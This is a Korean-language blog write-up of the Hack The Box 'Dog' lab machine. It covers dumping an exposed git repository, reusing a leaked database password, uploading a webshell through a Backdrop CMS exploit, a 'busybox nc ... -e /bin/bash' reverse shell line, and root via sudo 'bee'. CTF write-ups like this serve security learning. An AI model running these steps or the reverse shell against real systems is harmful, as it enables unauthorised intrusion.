 ```yaml
---
layout: post
title: Hack The Box - Dog
subtitle: Hack the box [Season 7] dog machine
category: writeup
thumbnail-img: /assets/img/writeup/HTB/dog/badge.png
tags: [writeup, hackthebox, dog, linux, backdrop, bee]
author: Hong
---
```


이번에 처음으로 Hack the box의 시즌에 참가해보았다.

롤의 랭겜 처럼 획득한 플래그에 따라 랭크가 올라가는 시스템으로 꽤 재밌다.

중간부터 참가해서 점수 획득 가능한 머신이 별로 없긴 하지만 이번 시즌에 일단 브론즈는 됐기 때문에 만족한다. 다음 시즌부터는 실버 이상 달 수 있도록 노력해야지.

이번에 풀었던 Dog 머신의 write up을 적어본다.

# nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin
| /comment/reply /filter/tips /node/add /search /user/register
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
| http-git:
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
|_http-title: Home | Dog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

22번과 80번 포트가 열려있다.

nmap 결과에서도 이미 보이듯 웹사이트에 git이 포함되어 있다.

깃 로그나 파일들 히스토리에서 뭔가 읽을 수 있을지도 모르기 때문에 git을 덤프부터 한다.

# git dump

wget에 -r 옵션으로도 덤프가 가능하지만 이번엔 사이즈가 커서 한세월이 걸릴 것 같아 중간에 포기했다.

깃 덤프를 전문으로 하는 툴이 있었기 때문에 툴을 사용해봤다.

[git-dumper](https://github.com/arthaud/git-dumper)

확실히 툴을 사용하니 훨씬 빠르게 덤프가 됐다.

아웃풋 디렉토리에 파일이 만들어지는데 settings.php 파일이 있었고 그 안에서 크레덴셜을 하나 발견했다.

`$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';`

웹페이지에 로그인 해보려 했지만 root라는 유저는 없는듯 했다.

웹페이지에서 발견했던 이메일 형식을 보고 **support@dog.htb** 파일들 중에 비슷한 게 있나 찾아봤다.

```
grep -i @dog.htb -r .
./.git/logs/HEAD:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000       commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases
./.git/logs/refs/heads/master:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000  commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases
./files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"
```

tiffany라는 유저가 있었다.

티파니의 이메일과 아까 찾은 비밀번호를 사용해서 로그인에 성공했다.

![login](/assets/img/writeup/HTB/dog/loginpng.png)

파일들의 내용에서 backdrop의 버전이 1.27.1이 사용되고 있는 걸 알 수 있었고 관련 버전의 취약점도 찾을 수 있었다.

https://www.exploit-db.com/exploits/52021

# 웹 취약점

발견한 취약점의 소스코드를 보고 따라했다.

이번엔 수동으로 직접 조작하지 않으면 안되는 취약점이었다.

소스코드를 실행하면 shell.info와 shell.php 파일 두 개가 만들어지는데 이 파일들을 압축해서 업로드하면 웹쉘이 얻어진다고 한다.

하지만 그전에 이미 웹페이지에 설치되어 있는 다른 모듈들을 확인하면 알 수 있듯 shell.php가 아닌 shell.module로 이름을 바꿔준다.

![exploit](/assets/img/writeup/HTB/dog/exploit.png)

압축 후 업로드를 하면 실패하는데 파일들이 아닌 shell 디렉토리를 압축하니까 해결됐다.

![exploit2](/assets/img/writeup/HTB/dog/exploit2.png)

하지만 아직 제대로 웹쉘이 얻어지지 않는데 권한을 수정해줘야 한다.

![exploit3](/assets/img/writeup/HTB/dog/exploit3.png)

여기까지 하면 드디어 웹쉘을 사용 할 수 있게 된다. (이게 easy 레벨이 맞나..?)

# 웹쉘

제대로 했다면 다음과 같이 웹쉘이 나타난다.

![webshell](/assets/img/writeup/HTB/dog/webshell.png)

문제없이 작동한다.

리버스쉘 코드를 입력해서 연결한다.

`busybox nc 10.10.16.28 443 -e /bin/bash`

그러면 www-data로 쉘이 얻어지는데 아직 유저의 플래그를 볼 수는 없다.

# Post exploit

일단 유저의 크레덴셜을 알아내야 한다.

home 디렉토리를 보니 유저가 다음 두 명이었다.

```
jobert  johncusack
```

처음에 발견했던 데이터베이스의 크레덴셜을 떠올리고 mysql에 접속해봤다.

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| backdrop           |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
```

backdrop에 있는 user테이블에서 해쉬 정보들을 확인 할 수 있었는데 hashcat에도 나오지 않는 해쉬를 사용하고 있었다.

아마 rabbit hole인듯 하다.

그 뒤로 2시간 정도 분투했으나 크레덴셜을 발견 할 수가 없었다.

플래그는 johncusack의 홈 디렉토리에 있기에 johncusack 유저로 변경하고 혹시나해서 데이터베이스의 비밀번호를 입력해봤더니..? johncusack로 접속하는데 성공했다!

비밀번호를 대체 몇번을 재사용하는거여.

# root

johncusack의 크레덴셜을 알았기 때문에 ssh 접속도 가능해졌다.

sudo -l을 해보니 bee라는 툴을 사용할 수 있다고 한다.

![sudo](/assets/img/writeup/HTB/dog/sudo.png)

처음보는 서비스였는데 help 페이지를 보고 php 파일을 루트 권한으로 실행할 수 있다는 걸 알았다.

php의 리버스쉘을 준비해놓고 bee를 이용해서 실행하기만 하면 될 터.

그런데 자꾸 에러가 난다.

![error](/assets/img/writeup/HTB/dog/error.png)

뭐가 문제인지 몰라 검색을 해봐도 딱 맞아떨어지는 대답이 없었는데 중간에 [유용한 정보](https://github.com/backdrop-contrib/bee/issues/428#issuecomment-2320570068)를 발견했다.

`bee status`라는 명령어가 있다고 한다. help 페이지에서는 못 본 것 같은데.

bee status를 입력해보니 루트 디렉토리에서 bee를 실행하라고 한다.

여기서 말하는 루트 디렉토리는 backdrop이 설치되어 있는 디렉토리를 말한다.

그래서 `/var/www/html`로 이동 후 명령어를 실행했더니 문제없이 php 파일이 실행됐다!

![rev](/assets/img/writeup/HTB/dog/rev.png)

이번 머신은 초기에 웹쉘을 얻는 과정이 가장 어려웠던 것 같다.

그리고 찾아낸 비밀번호는 재사용 될 가능성이 있기에 무조건 한번씩 대입해봐야 한다는 교훈도 얻었다.
